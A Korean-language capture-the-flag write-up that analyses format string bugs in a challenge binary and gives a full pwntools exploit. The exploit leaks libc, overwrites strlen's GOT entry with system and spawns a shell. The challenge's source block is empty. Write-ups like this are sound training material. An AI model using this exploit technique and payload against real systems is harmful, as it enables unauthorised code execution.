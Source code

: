 ```c
```

`check_id` 함수의 반환값에 따라 실행되는 코드가 결정됩니다. `case 3`의 `printf(id_number);`에서 `0x20`의 길이를 가지는 `payload`를 실행시킬 수 있는 `fsb` 취약점이 발생합니다. `case 0`과 `case 2`에서 호출되는 `check_passwd` 함수의 `fprintf(access_log, passwd);`에서 `0x64`의 길이를 가지는 `payload`를 실행시킬 수 있는 `fsb` 취약점이 발생합니다. `count == 3`이면 프로그램을 종료시키므로 `fsb`를 이용할 수 있는 기회는 세 번입니다.

- 익스플로잇 설계

`fsb` 결과물을 출력해주기 때문에 카나리, `libc base`, `pie base` 등 알고 싶은 값은 모두 알 수 있습니다. 그럼 쉘을 어떻게 딸지 생각해야 합니다. 여기서는 `libc got overwrite`를 사용하겠습니다.
`fsb` 작동 후에 `chk_pw == -1`이라면 `puts(password);`가 실행됩니다.

```bash
pwndbg> disass puts
Dump of assembler code for function __GI__IO_puts:
Address range 0x7ffff7e0ae50 to 0x7ffff7e0afe9:
   0x00007ffff7e0ae50 <+0>:     endbr64
   0x00007ffff7e0ae54 <+4>:     push   r14
   0x00007ffff7e0ae56 <+6>:     push   r13
   0x00007ffff7e0ae58 <+8>:     push   r12
   0x00007ffff7e0ae5a <+10>:    mov    r12,rdi
   0x00007ffff7e0ae5d <+13>:    push   rbp
   0x00007ffff7e0ae5e <+14>:    push   rbx
   0x00007ffff7e0ae5f <+15>:    sub    rsp,0x10
   0x00007ffff7e0ae63 <+19>:    call   0x7ffff7db2490 <*ABS*+0xa86a0@plt>
   
   후략
```

`puts`에서 `*ABS*+0xa86a0@plt`를 참조하여 다른 함수를 호출합니다. `ida`로 `libc` 파일을 확인해보면 `libc`의 `strlen got`을 참조하여 호출하고 있음을 알 수 있습니다. `rdi`가 `puts` 실행 후에 `strlen`을 실행할 때까지 다른 값으로 바뀌지 않으므로, `rdi`는 여전히 `&password`입니다. 따라서 `password`에서 `/bin/sh;`를 적어놓고, `strlen got`을 `system`으로 변조하면 쉘이 따질 것입니다. `chk_pw == -1`을 만족시키는 방법은 `check_passwd` 함수에서 `passwd`에 특정 문자열이 아닌 문자열을 입력하면 됩니다. 어짜피 `fsb payload`를 입력할 것이므로 걱정하지 않아도 될 부분입니다.

- 익스플로잇

```python
from pwn import *

p = process('./final')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

payload = b"%33$p\n"
p.sendafter(b': ', payload)
l.address = int(p.recvline()[:-1], 16) - (0x7ffff7db3d90 - 0x7ffff7d8a000)

strlen_got = l.address + 0x21a098
system = l.sym['system']
system1 = system & 0xffff
system2 = (system >> 16) & 0xffff
payload = b'/bin/sh;'
payload += f"%{system1 - 8}c%32$hn".encode()
payload += f"%{0x10000 - system1 + system2}c%33$hn".encode()
payload = payload.ljust(0x28, b'a')
payload += p64(strlen_got) + p64(strlen_got + 2)

p.sendafter(b': ', b'Lord Of Buffer overflow')
p.sendafter(b': ', payload)
p.interactive()
```
